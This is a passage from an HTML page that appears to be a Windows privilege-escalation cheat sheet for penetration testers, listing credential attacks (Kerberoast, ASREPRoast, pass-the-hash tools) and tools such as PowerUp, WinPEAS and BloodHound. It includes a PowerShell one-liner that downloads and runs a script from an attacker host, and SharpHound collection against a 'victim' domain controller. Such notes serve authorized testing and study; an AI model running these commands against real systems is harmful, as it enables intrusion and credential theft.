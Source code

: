         <li>schtasks /query /fo LIST /v</li>
    </ul>
    <li>mysql</li>
    <ul>
        <li>run commands as mysql user</li>
        <ul>
            <li>raptor_winudf</li>
        </ul>
        <li>Search for creds</li>
    </ul>
    <li>Login or run commands as other user using credentials or hashes</li>
    <ul>
        <li>Powershell</li>
        <li>psexec</li>
        <li>winrm</li>
        <li>wmiexec</li>
        <li>pth-winexe</li>
    </ul>
    <li>Check password attack vectors</li>
    <ul>
        <li>ASREPRoast</li>
        <li>Kerberoast</li>
    </ul>

    <br>

    <h2>PrivEsc Tools</h2>
    <li>Powerup.ps1</li>
    <ul>
        <li>IEX(New-Object Net.WebClient).downloadString('http://&lt;ip address&gt;/PowerUp.ps1&#039;)</li>
        <li>Invoke-AllChecks</li>
    </ul>
    <li>Winpeas</li>
    <li>Seatbelt</li>
    <li>Windows-Privesc-Checker</li>
    <li>Windows Exploit Suggester - Next Generation</li>
    <ul>
        <li>wesng.py /systeminfo.txt -i 'Elevation of Privilege' --exploits-only</li>
    </ul>
    <li>Metasploit</li>
    <li>Bloodhound</li>
    <ul>
        <li>Use against DC</li>
        <li>Clone repo for most up-to-date version</li>
        <ul>
            <li>Repo does not include the bloodhound executable, this must be downloaded separately from releases</li>
        </ul>
        <li>Usage instructions:</li>
        <ul>
            <li>Start neo4j on Kali</li>
            <ul>
                <li>run: neo4j console</li>
                <ul>
                    <li>Default credentials - neo4j:neo4j</li>
                    <ul>
                        <li>locate neo4j | grep auth</li>
                        <li>Delete Delete /usr/share/neo4j/data/dbms</li>
                    </ul>
                </ul>
            </ul>
            <li>Run collector/ingestor on victim AD DC machine</li>
            <ul>
                <li>Locally with executable: .\Sharphound.exe -c all</li>